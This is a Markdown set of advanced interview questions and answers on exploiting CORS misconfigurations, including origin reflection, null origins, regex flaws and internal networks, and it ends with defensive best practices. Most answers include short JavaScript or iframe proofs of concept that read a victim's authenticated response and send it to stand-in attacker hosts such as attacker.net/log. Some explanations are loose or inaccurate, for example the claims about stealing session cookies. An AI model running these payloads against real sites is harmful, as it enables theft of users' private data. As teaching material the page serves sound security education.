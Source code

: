 ### Advanced Interview Questions on CORS Misconfiguration

CORS (Cross-Origin Resource Sharing) misconfigurations can lead to severe security vulnerabilities, allowing attackers to make unauthorized requests on behalf of users and steal sensitive information. The misconfigurations typically occur when a web server fails to properly control which origins are allowed to make requests or does not enforce secure practices like credentialed requests. Below are advanced interview questions based on CORS misconfiguration exploitation:

---

#### **1. What is CORS and how does it work in modern web applications?**

- **Answer**: CORS is a mechanism that allows web applications running at one origin (domain) to make requests to resources on a different origin. It involves the `Origin` header in the HTTP request, and the server responds with `Access-Control-Allow-Origin` to indicate which origins are allowed. If `Access-Control-Allow-Credentials` is set to `true`, cookies and other credentials are included in cross-origin requests. Properly configuring CORS is crucial to avoid vulnerabilities like data theft or unauthorized actions.

---

#### **2. How can CORS misconfigurations lead to account takeovers or data leaks?**

- **Answer**: CORS misconfigurations allow an attacker to exploit the lack of origin validation to make cross-origin requests on behalf of authenticated users. If a server incorrectly allows an origin like `*` or a malicious domain (e.g., `https://evil.com`) to access sensitive data, such as session cookies or API keys, the attacker can capture this information, potentially leading to an account takeover or unauthorized data access. For instance, if `Access-Control-Allow-Origin` is improperly set to `*` or `https://evil.com`, malicious scripts can access private API endpoints with the victim's credentials.

---

#### **3. Describe the steps involved in exploiting a CORS misconfiguration vulnerability where `Access-Control-Allow-Credentials: true` is set.**

- **Answer**: 
    - **Step 1**: The attacker sets up a malicious website (`https://evil.com`) that hosts a script to make requests to the vulnerable API (`https://victim.com`).
    - **Step 2**: The user visits the attacker's site while being logged into `https://victim.com`. The malicious script sends a cross-origin HTTP request to `https://victim.com/endpoint` with the `Origin` header set to `https://evil.com`.
    - **Step 3**: The server, due to improper CORS configuration (i.e., it accepts `https://evil.com`), responds with `Access-Control-Allow-Origin: https://evil.com` and includes `Access-Control-Allow-Credentials: true`.
    - **Step 4**: The attacker’s site receives the response, which includes the victim’s session cookies or other private data. The attacker can then send this data to their own server (`https://attacker.net/log?key=<private_key>`), thereby stealing sensitive information.
    - **PoC**: 
      ```js
      var req = new XMLHttpRequest();
      req.onload = function() {
          location = 'https://attacker.net/log?key=' + this.responseText;
      };
      req.open('GET', 'https://victim.com/endpoint', true);
      req.withCredentials = true;
      req.send();
      ```

---

#### **4. What is the impact of a `null` origin being allowed by the server in CORS headers? How can it be exploited?**

- **Answer**: Allowing a `null` origin means that the server will respond with CORS headers that permit requests with a `null` origin, often from sources like iframes or sandboxed environments. An attacker can exploit this by embedding an iframe with a malicious payload. When the iframe makes a request to the victim’s API, the browser treats it as coming from a `null` origin, and if the server allows such an origin, it sends sensitive data back, which the attacker can capture.

- **PoC**:
  ```html
  <iframe src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = function() { location = 'https://attacker.com/log?key=' + this.responseText; };
      req.open('GET', 'https://victim.com/endpoint', true);
      req.withCredentials = true;
      req.send();
  </script>"></iframe>
  ```

---

#### **5. Explain the concept of **Origin Reflection** and how it can be used in CORS misconfiguration exploitation.**

- **Answer**: Origin reflection occurs when the server reflects the `Origin` header from the client request and uses it in the response’s `Access-Control-Allow-Origin` header. If the server is not properly validating and sanitizing this reflected value, an attacker can control the `Origin` header in the request and trick the server into sending CORS headers allowing an attacker's origin to access sensitive data. 

- **PoC**:
  ```js
  var req = new XMLHttpRequest();
  req.onload = function() {
      location = 'https://attacker.com/log?key=' + this.responseText;
  };
  req.open('GET', 'https://victim.com/endpoint', true);
  req.withCredentials = true;
  req.send();
  ```

---

#### **6. What are the risks associated with using wildcard (`*`) in `Access-Control-Allow-Origin` when `Access-Control-Allow-Credentials: true` is also set?**

- **Answer**: A wildcard (`*`) in the `Access-Control-Allow-Origin` header should not be used in conjunction with `Access-Control-Allow-Credentials: true`. The wildcard allows any origin to access resources, and when combined with credentials, it effectively permits any site to access the authenticated user’s data, including cookies and session tokens. This misconfiguration can lead to data theft, session hijacking, and other serious security issues.

---

#### **7. How can an attacker exploit CORS misconfigurations on internal networks?**

- **Answer**: Internal network servers often have more relaxed security configurations, and CORS misconfigurations may allow external attackers to access them. If an internal server responds with a wildcard or improperly whitelisted origin (`*` or `https://evil.com`), an attacker’s website can make requests to internal API endpoints without requiring authentication. This is especially dangerous in environments where sensitive data or critical APIs are exposed only to internal users.

- **PoC**:
  ```js
  var req = new XMLHttpRequest();
  req.onload = function() {
      location = 'https://attacker.net/log?key=' + this.responseText;
  };
  req.open('GET', 'https://api.internal.example.com/endpoint', true);
  req.send();
  ```

---

#### **8. How can regular expressions in CORS origin validation lead to security issues?**

- **Answer**: Poorly implemented regular expressions for origin validation can lead to misconfigurations where unexpected origins are allowed. For example, using `^api.example.com$` without escaping the dot (`.`) might let `apiiexample.com` or other variations gain access. Attackers can exploit this by using subdomains or specially crafted URLs to bypass the validation.

- **PoC**:
  ```js
  var req = new XMLHttpRequest();
  req.onload = function() {
      location = 'https://attacker.com/log?key=' + this.responseText;
  };
  req.open('GET', 'https://api.example.com/endpoint', true);
  req.withCredentials = true;
  req.send();
  ```

---

#### **9. How can XSS on a trusted origin enable a CORS attack?**

- **Answer**: If an attacker can inject malicious JavaScript into a trusted domain (via XSS), they can hijack the CORS functionality. Once they control a trusted origin, they can use the same exploit as in a standard CORS attack, but now with the trust of the domain, bypassing CORS protections. The injected script can make requests to the victim's API and send the data to the attacker.

- **PoC**:
  ```html
  <script>
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
              console.log(this.responseText);
          }
      };
      xhr.open("GET", "https://victim.com/endpoint", true);
      xhr.withCredentials = true;
      xhr.send();
  </script>
  ```

---

#### **10. What is the role of CORS misconfigurations in facilitating phishing and other attacks?**

- **Answer**: CORS misconfigurations can allow an attacker’s site to steal sensitive data such as cookies, session tokens, or private API keys. If credentials are shared via cross-origin requests, the attacker can use the stolen data to impersonate the user, conduct phishing attacks, or carry out further exploits. This can be especially damaging if combined with social engineering tactics or other attack vectors.

---

### Best Practices to Prevent CORS Misconfigurations:
1. **Use a strict whitelist of allowed origins** for `Access-Control-Allow-Origin`.
2. **Never use wildcard (`*`) for `Access-Control-Allow-Origin` when `Access-Control-Allow-Credentials: true`.**
3. **Properly sanitize and validate the `Origin` header** to prevent reflection and unauthorized access.
4. **Limit cross-origin requests** to trusted origins and use more secure mechanisms for handling credentials.
5. **Monitor and audit CORS settings regularly** to ensure they remain secure.
6. **Use security tools** like `Corsy` or `CORScanner` to detect misconfigurations.

These questions and answers should give a comprehensive understanding of CORS misconfiguration vulnerabilities and their exploitation techniques in advanced security contexts.
